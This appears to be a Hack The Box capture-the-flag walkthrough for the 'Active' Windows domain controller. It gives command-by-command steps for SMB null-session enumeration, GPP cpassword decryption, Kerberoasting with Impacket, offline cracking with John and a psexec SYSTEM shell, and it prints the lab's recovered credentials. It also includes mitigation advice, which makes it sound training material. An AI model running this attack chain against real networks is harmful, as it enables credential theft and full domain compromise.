


**IP Address:** `10.10.10.100`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** SMB, GPP, SYSVOL, Kerberos, User SPNs, Password Cracking

--- 
## Synopsis

Active is an easy-to-medium Windows machine demonstrating two common Active Directory exploitation techniques: extracting credentials from Group Policy Preferences (GPP) and performing a Kerberoasting attack to escalate privileges to Domain Administrator.

## Skills Required

- Basic Active Directory enumeration knowledge
- Familiarity with SMB, LDAP, and Kerberos
## Skills Learned

- SMB null session enumeration
- Decrypting GPP cpasswords
- Identifying Kerberoastable accounts and cracking TGS hashes

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

To verify if the host is up and reachable, we send a single ICMP packet:

```bash
ping -c 1 10.10.10.100
```


The machine responds, confirming it is alive.

### 1.2 Port Scanning

We begin by scanning all 65,535 TCP ports to identify exposed services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPorts
```

- `-p-`: Scan all ports
- `--open`: Show only open ports
- `-sS`: SYN scan (stealthy and fast)
- `--min-rate 5000`: Ensure quick scan by increasing packet rate
- `-Pn`: Skip host discovery (already confirmed alive)
- `-oG allPorts`: Output in grepable format for later processing

![[GitHub Documentation/EASY/HTB_Active_2_Writeup/screenshots/nmap.png]]

Alternative method using masscan and nmap:

```bash
sudo masscan -p1-65535 10.10.10.100 --rate=1000 -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
nmap -Pn -sV -sC -p$ports 10.10.10.100
```

Nmap fingerprints the domain controller as Windows Server 2008 R2 SP1 and reveals Microsoft DNS 6.1. SMBv2 message signing is enabled and required.

---

After the scan, we extract the list of open ports using a custom script:

```bash
extractPorts allPorts
```


### 1.3 Targeted Scan

Using the open ports, we perform a deeper scan with version and default scripts enabled:

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49173 10.10.10.100 -oN targeted
```

- `-sC`: Run default NSE scripts
- `-sV`: Detect service versions
- `-oN`: Output results in a human-readable format

Let's analyse de result with targeted file:

```bash
cat targeted -l java
```


Better color composition as bash command

| Port   | Service         | Description                                 |
| ------ | --------------- | ------------------------------------------- |
| 53     | DNS             | Domain Name System                          |
| 88     | Kerberos        | Authentication protocol                     |
| 135    | MS RPC          | Microsoft RPC endpoint mapper               |
| 139    | NetBIOS Session | Legacy SMB session service                  |
| 389    | LDAP            | Directory Services for querying AD          |
| 445    | SMB             | File and printer sharing                    |
| 464    | kpasswd         | Kerberos password change service            |
| 593    | RPC over HTTP   | Remote administration service               |
| 636    | LDAPS           | Secure LDAP                                 |
| 3268   | Global Catalog  | AD Global Catalog services                  |
| 5722   | DFS Replication | Distributed File System replication         |
| 9389   | AD Web Services | Web-based access to Active Directory        |
| 49152+ | Ephemeral Ports | High ports used by RPC and dynamic services |

Several key Active Directory-related services are discovered, confirming the machine is likely a **Domain Controller**.

At this stage we confirm:

- The target is a **Windows Domain Controller**.
- Multiple services related to **Active Directory** are exposed.
- We will likely be able to enumerate **LDAP**, access **SYSVOL** shares, and potentially extract credentials via **Group Policy Preferences (GPP)**.
- **Kerberoasting** and **SMB enumeration** are promising next steps.

---
## 2. SMB Enumeration & SYSVOL Access

This phase focuses on exploiting the exposed SMB service to access sensitive files stored in the SYSVOL share, which are often misconfigured and may contain credentials via Group Policy Preferences (GPP).
### 2.1 Detecting Domain Controller

Based on the open ports and SMB responses, we suspect the target is a Domain Controller. To confirm this, we review the scan results and add the domain to `/etc/hosts`:

``` bash
echo "10.10.10.100 active.htb" >> /etc/hosts
```

We also run CrackMapExec to get a quick overview:

```bash
crackmapexec smb 10.10.10.100
```


Confirms the hostname and domain, indicating that we are indeed dealing with a DC.

### 2.2 Enumerating SMB Shares (Null Session)

We enumerate the available shares using unauthenticated access (null session):

```bash
smbclient -L 10.10.10.100 -N
```


Several shares are listed, and public access is allowed to at least one of them.

### 2.3 Exploring Shares with `smbmap`

We list available shares and their permissions using `smbmap`:

```bash
smbmap -H 10.10.10.100
```


Access is granted only to the `Replication` share.

This indicates that we can read files inside the **SYSVOL** structure. We proceed to enumerate it recursively:

```bash
smbmap -H 10.10.10.100 -r Replication
```


The structure closely resembles the typical **SYSVOL** directory used for GPO deployment in Active Directory environments.


We find `Group.xml`, this file often contains GPP credentials, which are encrypted with a known static key.

### 2.4 Sensitive File Analysis

We download it using `smbmap`:

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
```

Let's rename and open it:


There are two interesting values:

- cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
- userName="active.htb\SVC_TGS"

The `cpassword` value is an **AES-encrypted password**, but Microsoft published the encryption key years ago, making this a critical vulnerability.

We decrypt it using the `gpp-decrypt` tool:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```


**Credentials retrieved:**  
Username: `SVC_TGS`  
Password: `GPPstillStandingStrong2k18`

### 2.6 Credential Validation

We test the credentials with CrackMapExec:

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```


Login successful — the credentials are valid.

### 2.7 Explore Shares with Credentials

With valid credentials, we enumerate shares again:

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```


We identify access to the **Users** share. We list its contents:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop/
```


Inside, we find and download the user flag:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```


✅ **User flag obtained**

> **Group Policy Preferences (GPP)** is a feature in Active Directory that allowed administrators to set local users and passwords via Group Policy Objects. These credentials were stored in XML files (like `Groups.xml`) under SYSVOL and encrypted using a known AES key published by Microsoft.
> 
> **Impact:**  
> Any domain user can read SYSVOL and decrypt these credentials, leading to lateral movement or privilege escalation.
> 
> **Mitigation:**
> - Stop using GPP to manage passwords.
> - Remove old XML files from SYSVOL.
> - Rotate affected passwords.

---
## 3. Domain Enumeration

With valid credentials for the domain account `SVC_TGS`, the next logical step is to enumerate domain users, groups, and potential attack paths within the Active Directory environment.
### 3.1 Enumerate Users

We can use `rpcclient` to interact with the SMB RPC service and extract a list of domain users.

```bash
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomusers'
```



Lists all users in the domain along with their **RID** values.  
This information can be useful for further password spraying, AS-REP Roasting, or targeted Kerberoasting.
User enumeration helps identify potential Kerberos attack targets (e.g., accounts with Service Principal Names or without pre-authentication).
### 3.2 Enumerate Groups

Similarly, we enumerate all domain groups:

```bash
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomgroups'
```


Displays group names and RIDs.  
Special attention should be given to administrative or privileged groups such as:

- `Domain Admins`
- `Enterprise Admins`
- `Account Operators`
- `Server Operators`

Group enumeration provides insight into privilege levels, delegation, and trust relationships.

> 💡 **Tip:** Since we have valid credentials, other tools like `ldapsearch`, `BloodHound`, or `CrackMapExec` with LDAP enumeration modules could be used for more in-depth reconnaissance. However, for this machine, the RPC enumeration is enough to identify the next attack vector: **Kerberoasting**.

---
## 4. Kerberos SPN Attack

### 4.1 SPN Enumeration

We attempt to enumerate and request service tickets using **Impacket’s GetUserSPNs.py** tool:

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```


❗ **Issue:** The command fails due to a **time synchronization mismatch** between our attacking machine and the Domain Controller.

Kerberos is time-sensitive — by default, it allows a maximum of 5 minutes of clock skew.

### 4.2 Fixing Time Synchronisation

We fix the time sync using `ntpdate`:

``` bash
sudo apt install ntpsec-ntpdate
sudo ntpdate -u 10.10.10.100
```


After syncing time, we rerun the command:


We retrieve a **Ticket Granting Service (TGS)** hash for the **Administrator** account.
We save the hash to a file named `hash`:


### 4.3 Cracking the Hash

We crack the TGS hash offline using **John the Ripper** with the `rockyou.txt` wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs hash
```


✅ **Password found:**

- **Username:** `Administrator`
- **Password:** `Ticketmaster1968`

### 4.4 Validating Administrator Access

We test the recovered credentials with CrackMapExec:

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```



Administrator authentication successful — **full domain compromise achieved**.

> 💡 **Kerberoasting Explained**
> 
> - Kerberos allows domain users to request service tickets for services linked to SPNs.
> - These tickets are encrypted with the service account’s NTLM hash.
> - If the service account’s password is weak, it can be cracked offline without alerting the target system.
> 
> **Mitigation:**
> - Use strong, random passwords for service accounts.
> - Monitor for abnormal Kerberos ticket requests.
> - Restrict which accounts can be queried for SPNs.

## 5. Remote Access & SYSTEM Privileges

With valid **Domain Administrator** credentials obtained from the Kerberoasting attack, our goal is to gain an interactive shell on the target machine with the highest level of privileges (`NT AUTHORITY\SYSTEM`).
### 5.1 Choosing the Access Method

We note that **WinRM (5985/5986)** is **not open** on the target, so we cannot use Evil-WinRM for remote access.  
Instead, we opt for **psexec.py** from the Impacket toolkit, which uses SMB and RPC to execute commands remotely as SYSTEM.

### 5.2 Executing psexec.py

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```


A remote shell is obtained as `NT AUTHORITY\SYSTEM`.

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---

## 6 Summary of Exploitation Path

1. **SMB Null Session** → Access to SYSVOL/Replication share.
2. **Group Policy Preferences (GPP)** → Decrypted `SVC_TGS` credentials from Groups.xml.
3. **Kerberoasting** → Extracted and cracked TGS ticket for `Administrator`.
4. **psexec.py** → Remote SYSTEM shell on the Domain Controller.

💡 **Defensive Recommendations**

- Disable **SMB null sessions** and restrict SYSVOL access to only necessary accounts.
- Remove **GPP XML files** containing passwords from SYSVOL.
- Enforce strong, random passwords for all service accounts to prevent Kerberoasting.
- Enable Kerberos pre-authentication for all accounts.
- Monitor and alert on unusual Kerberos ticket requests


